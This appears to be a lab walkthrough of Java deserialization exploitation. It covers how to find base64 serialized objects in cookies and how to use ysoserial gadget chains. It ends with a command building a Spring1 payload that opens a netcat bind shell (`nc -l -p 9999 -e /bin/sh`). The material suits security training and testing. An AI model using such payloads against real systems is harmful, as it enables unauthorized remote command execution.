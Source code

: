 # ObjectInputStream

The root cause of this issue comes from the fact that the application uses the method `readObject()` on data coming from the user. However, this is only one part of the  problem. In Java (as opposed to Python for example), the path from  unserialise to code execution is not obvious. To gain code execution, a  suit of gadgets need to be found in the libraries loaded by the  application. Some security researchers are currently finding a lot of  these gadgets in common libraries and getting them fixed. These  libraries are not directly vulnerable, but they allow the exploitation  of an application using `readObject` and loading them.

### Finding where the serialized object used

A good indicator is the string `rO0`, which is the base64 encoded version of `\xac\xed\x00`. Since serialised Java objects contain a lot of special characters, it's very common for them to get encoded before being transmitted over HTTP.

In this application the cookie is starting with `rO0` . 

Once you find where a serialised Java object is used, you will need to base64-encode your payload. **Use `base64 -w 0` to avoid new lines**

### Exploit

The tool **ysoserial**  can be used to exploit this issue. This tool allows an attacker to build malicious Java object that will provide command execution. 

This tool currently embeds gadgets for the following libraries:

```bash
$ java -jar ysoserial-0.0.4-all.jar 
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload type] '[command to execute]'
  Available payload types:
    CommonsBeanutilsCollectionsLogging1 [commons-beanutils:commons-beanutils:1.9.2, commons-collections:commons-collections:3.1, commons-logging:commons-logging:1.2]
    CommonsCollections1 [commons-collections:commons-collections:3.1]
    CommonsCollections2 [org.apache.commons:commons-collections4:4.0]
    CommonsCollections3 [commons-collections:commons-collections:3.1]
    CommonsCollections4 [org.apache.commons:commons-collections4:4.0]
    Groovy1 [org.codehaus.groovy:groovy:2.3.9]
    Jdk7u21 []
    Spring1 [org.springframework:spring-core:4.1.4.RELEASE, org.springframework:spring-beans:4.1.4.RELEASE]
```

as **Spring** is not available so we will use **Spring1** payload.

We can get `ysoserial` to generate our payload using:

```bash
java -jar ysoserial-0.0.4-all.jar Spring1 "/usr/bin/nc -l -p 9999 -e /bin/sh" 
```

